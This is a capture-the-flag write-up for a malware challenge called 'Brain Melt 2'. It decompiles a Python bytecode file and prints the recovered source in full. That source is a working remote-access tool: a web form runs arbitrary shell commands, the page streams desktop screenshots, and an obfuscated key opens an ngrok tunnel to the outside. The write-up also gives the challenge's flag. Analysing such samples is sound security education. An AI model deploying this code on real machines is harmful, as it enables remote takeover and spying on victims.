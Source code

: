 ## Name: Brain Melt 2
#### Category: Malware
#### Difficulty: Medium
#### Description: We'll skip Pyinstxtractor this time so it should be easy right? Note, the archive password is infected and the flag format varies slightly from the hexidecimal and length format. 

## Procedure
run ```file brain-melt-2.pyc``` command<br>

output ```brain-melt-2.pyc: Byte-compiled Python module for CPython 3.8, timestamp-based, .py timestamp: Tue May 21 21:08:49 2024 UTC, .py size: 4963 bytes```<br>

For pyc file we need to recover the python code, i always use pycdc tool for it, you can download pycdc from ```https://github.com/zrax/pycdc```, then just run ```./pycdc ~/brain-melt-2.pyc > brain.py```.<br>

### Brain-melt-2.py content
1) decrypt1, decrypt2, and decrypt3 functions are defined to decrypt various parts of a string to generate a key.<br>
2) deobfuscate function combines the results of the three decryption functions to form a key.<br>
3) ngrok_tunnel sets up an ngrok tunnel using this key.<br>
4) Desktop function takes a PIL image and prepares it to be sent as a JPEG file.<br>
5) execute function runs a shell command and flashes the output to the web interface.<br>

```
from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, StringField, validators, SubmitField
import subprocess
import pyautogui
import io
from PIL import Image
from Crypto.Cipher import Salsa20
from pyngrok import ngrok
import base64
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(24)

def decrypt1(encrypted_str):
    decoded_str = ''
    for i in range(0, len(encrypted_str), 2):
        encoded_chunk = encrypted_str[i:i + 2] + '=='
        decoded_str += base64.b64decode(encoded_chunk).decode('ascii')
    return decoded_str

def decrypt2(a1, a2):
    result = ''
    for character in a1:
        tempcharaddedr = 'temporary value'
        result += chr(((ord(character) - ord('a')) + a2) % 26 + ord('a'))
    return result

def decrypt3(s1, key):
    msg_nonce = s1[:8]
    ciphertext = s1[8:]
    cipher = Salsa20.new(key=key.encode('utf-8'), nonce=msg_nonce)
    return cipher.decrypt(ciphertext).decode('utf-8')

def deobfuscate():
    part1 = decrypt1('ZgbAYQZwewMAOAZQOQYwYwNQYgMA')
    part2 = decrypt2('fwvcttjsfvrshwsg', 17)
    part3 = decrypt3(b'\x97p#2\x1abw\x0f\x9a\xd1Z\x04b\x93\xa1h8]\xab\xa3\x9e7\xc9\xe8\x9b', '25dbd4f362f7d0e64b24ab231728a1fc')
    key = part1 + part2 + part3
    return key

def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    http_tunnel = ngrok.connect(5000)
    print(f" * Tunnel URL: {http_tunnel.public_url}")

def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', quality=70)
    img_io.seek(0)
    return send_file(img_io, mimetype='image/jpeg')

def execute(cmd):
    try:
        result = subprocess.run(cmd, shell=True, capture_output=True, text=True, check=True)
        flash(result.stdout)
        flash(result.stderr)
    except subprocess.CalledProcessError as e:
        flash(f"Error: {e}")

class CommandForm(Form):
    command = StringField('Command:', [validators.DataRequired()])
    submit = SubmitField('Submit')

@app.route('/', methods=['GET', 'POST'])
def display():
    form = CommandForm(request.form)
    if request.method == 'POST' and form.validate():
        command = form.command.data
        execute(command)
    return render_template_string('''<!doctype html>
        <html>
        <head>
            <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
        </head>
        <body>
            <div class="container">
                <h1>Command Executor</h1>
                <form method="post">
                    <div class="form-group">
                        <label for="command">Command:</label>
                        <input type="text" class="form-control" id="command" name="command">
                    </div>
                    <button type="submit" class="btn btn-success">Submit</button>
                </form>
                {% for message in get_flashed_messages() %}
                <div class="alert alert-info">{{ message }}</div>
                {% endfor %}
                <img src="/images/desktop.jpg" id="img" width="100%" style="height: 100vh;">
            </div>
            <script type="text/javascript">
                window.onload = function() {
                    var image = document.getElementById("img");
                    function updateImage() {
                        image.src = image.src.split("?")[0] + "?" + new Date().getTime();
                    }
                    setInterval(updateImage, 1000);
                }
            </script>
        </body>
        </html>''', form=form)

@app.route('/images/desktop.jpg')
def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

if __name__ == '__main__':
    glob_key = '24a0b299984ee8da7aae14b7163e2e63'
    ngrok_tunnel()
    app.run(host='0.0.0.0', debug=False)

```
<br>

then we can emulate the code, and it will return us the flag

<img width="874" alt="Screenshot 2024-05-26 at 00 17 23" src="https://github.com/sp34rh34d/CTF-writeups/assets/94752464/377ba6f8-cd8d-4a9a-8dbd-0cf37f348ac1">

flag ```flag{08e9cc5b0wnmtkkajwmijynjx3a415bd9a8024930}```
